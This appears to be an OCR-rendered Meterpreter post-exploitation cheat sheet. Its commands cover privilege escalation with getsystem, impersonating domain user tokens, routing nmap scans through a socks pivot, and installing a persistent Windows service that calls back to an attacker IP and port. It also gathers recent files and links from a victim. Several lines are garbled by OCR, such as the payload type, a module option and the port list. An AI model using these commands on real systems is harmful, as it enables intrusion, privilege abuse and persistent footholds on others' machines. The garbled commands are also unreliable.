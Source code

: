 ### Increasing access level

```text
use priv
getsystem
```

### Impersonation token (removing the token will stop impersonation)

```text
use incognito
list tokens -u
impersonate token domain\\user
```

### Using nmap in meterpreter socks proxy

```text
1. msf sessions #Note Meterpreter ID
2. msf route add 3.3.3.0 255.255.255.0 id
3. msf use auxiliary/server/socks4a
4. msf run
5. Open a new shell and edit /etc/proxychains.conf
i. #proxy_dns
ii. #socks4 127.0.0.1 9050
iii. socks4 1.1.1.1 1080
6. Save and close the conf file
7. proxychains nmap -sT -Pn -p80,:35,s45 3.3.3.3
```

### Railgun - api related to displaying specific messages

```text
meterprete irb
client.railgun.user32.MessageBoxA(O,"got","YOU","MB_OK")
```

### Creating a stable Windows service

```text
msf use post/windows/manage/persistence
msf set LHOST attack ip
msf set LPORT callback port
msf set PAYLOAD_TYPE TCPIHTTPIHTPS
msf set REXENAHE filename
msf set SESSION meterpreter session id
msf set STARTUP SERVICE
```

### Collect the latest requested files and web links

```text
meterpreter run post/windows/gather/dumplinks
```
